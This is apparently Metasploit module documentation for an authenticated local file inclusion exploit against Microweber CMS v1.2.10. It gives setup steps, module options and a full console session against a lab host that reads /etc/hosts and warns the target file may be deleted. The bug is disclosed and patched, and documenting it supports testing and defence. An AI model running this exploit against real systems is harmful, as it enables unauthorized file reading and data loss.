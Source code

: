 ## Vulnerable Applications
Microweber CMS v1.2.10 LFI (Authenticated) has been verified and fixed according to the maintainer of the project. You check out the vulnerability report:
https://huntr.dev/bounties/09218d3f-1f6a-48ae-981c-85e86ad5ed8b/

**The older versions of Microweber CMS might be vulnerable too. I've not tested the module against the other versions.**
If you want, you can follow the steps in the official vulnerability report to reproduce the vulnerability against the older versions. (not guaranteed)

## Verification Steps
- [ ] Start `msfconsole`
- [ ] Run `use auxiliary/gather/microweber_lfi`
- [ ] Set `RHOSTS`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Set `LOCAL_FILE_PATH`
- [ ] Run `exploit`
- [ ] Verify that you see `Checking Microweber's version.`
- [ ] Verify that you see `Microweber Version: 1.2.10`
- [ ] Verify that you see `You are logged in`
- [ ] Verify that you see `Uploading LOCAL_FILE_PATH to the backup folder.`
- [ ] Verify that you see `FILE was moved!`
- [ ] Verify that you see `Downloading FILE from the backup folder.`

## Options
```
msf6 auxiliary(gather/microweber_lfi) > options

Module options (auxiliary/gather/microweber_lfi):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   LOCAL_FILE_PATH  /etc/hosts       yes       The path of the local file.
   PASSWORD         admin            yes       The admin's password for Microweber
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           192.168.188.132  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /                yes       The base path for Microweber
   USERNAME         admin            yes       The admin's username for Microweber
   VHOST                             no        HTTP server virtual host
```

## Scenerios
This module has been tested against Microweber CMS v1.2.10 installed on Ubuntu.

```
msf6 auxiliary(gather/microweber_lfi) > use auxiliary/gather/microweber_lfi
msf6 auxiliary(gather/microweber_lfi) > set username admin
username => admin
msf6 auxiliary(gather/microweber_lfi) > set password admin
password => admin
msf6 auxiliary(gather/microweber_lfi) > set local_file_path /etc/hosts
local_file_path => /etc/hosts
msf6 auxiliary(gather/microweber_lfi) > set rhosts 192.168.188.132
rhosts => 192.168.188.132
msf6 auxiliary(gather/microweber_lfi) > check

[!] Triggering this vulnerability may delete the local file that is wanted to be read.
[*] Checking Microweber's version.
[+] Microweber Version: 1.2.10
[+] 192.168.188.132:80 - The target is vulnerable.
msf6 auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[!] Triggering this vulnerability may delete the local file that is wanted to be read.
[*] Checking Microweber's version.
[+] Microweber Version: 1.2.10
[+] You are logged in
[*] Uploading /etc/hosts to the backup folder.
[+] hosts was moved!
[*] Downloading hosts from the backup folder.
[*] 127.0.0.1 localhost
127.0.1.1 ubuntu-srv-tk

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

[*] Auxiliary module execution completed
```
